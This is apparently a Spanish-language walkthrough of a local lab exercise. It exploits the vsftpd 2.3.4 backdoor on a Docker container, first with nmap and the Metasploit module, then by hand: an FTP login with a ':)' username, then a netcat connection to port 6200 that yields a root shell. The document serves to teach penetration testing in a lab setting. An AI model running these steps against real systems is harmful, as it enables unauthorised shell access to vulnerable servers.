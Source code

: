 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh 
```

![Pasted image 20250130162053](https://github.com/user-attachments/assets/c44a975a-6fc8-40bb-bf03-f128554e897b)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250130162149](https://github.com/user-attachments/assets/c87c9ee2-5aa5-4c70-9215-e4b02c192061)

Utilizamos **Metasploit** para explotar la vulnerabilidad:

```
search vsftpd
```

![Pasted image 20250130162511](https://github.com/user-attachments/assets/28f427c5-a837-4f5a-84cd-ec5b4f4ad9c5)

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

![Pasted image 20250130162525](https://github.com/user-attachments/assets/1c1fdc4b-313a-4f86-8c27-94251972738c)

```
show options
```

![Pasted image 20250130162540](https://github.com/user-attachments/assets/13715516-34db-4a3b-a580-88ce5ebb33fd)

```
set RHOSTS 172.17.0.2
```

![Pasted image 20250130162555](https://github.com/user-attachments/assets/7360a8b6-e2bf-4436-b428-9cbd191fd933)

```
show options
```

![Pasted image 20250130162608](https://github.com/user-attachments/assets/0a422cea-66f1-4383-a97c-d83bbd2867aa)

```
exploit
```

![Pasted image 20250130162625](https://github.com/user-attachments/assets/6e8b3cee-3c4c-4e27-9645-0bec9e113f29)

```
/bin/bash -i
```

![Pasted image 20250130162636](https://github.com/user-attachments/assets/09ef7af3-e9fd-41f1-8a75-3597215adb4c)

```
whoami
```

![Pasted image 20250130162654](https://github.com/user-attachments/assets/610b8afd-227d-4a6a-a8fd-002ac98b23c1)

Otra forma de explotar:

```
ftp 172.17.0.2
```

![Pasted image 20250130162943](https://github.com/user-attachments/assets/1d31d150-9de8-4105-93a2-d4a2b34d8d29)

```
hola:)
```

![Pasted image 20250130163018](https://github.com/user-attachments/assets/4c22136c-96b6-49e1-8bef-387a1d76f1aa)

```
'blank'
```

![Pasted image 20250130163104](https://github.com/user-attachments/assets/6cd7b704-5d5f-4460-9590-f4964b992335)

Comprobamos que se ha abierto el puerto 6200:

```
nmap -sV -sC -sS -T 5 -n -Pn -p 6200 172.17.0.2
```

![Pasted image 20250130163147](https://github.com/user-attachments/assets/cd83e74d-d870-4c14-95d6-373267d26f20)

Nos conectamos al puerto con **Netcat**:

```
nc 172.17.0.2 6200
```

![Pasted image 20250130163304](https://github.com/user-attachments/assets/1057a3cb-539c-4d6e-91cd-f62ff86f4550)

```
/bin/bash -i
```

![Pasted image 20250130163320](https://github.com/user-attachments/assets/36be5d74-f6e7-42b4-aed0-24409f467b41)

```
whoami
```

![Pasted image 20250130163330](https://github.com/user-attachments/assets/ce7e769c-9c73-4497-9c4e-1825ed7f6928)
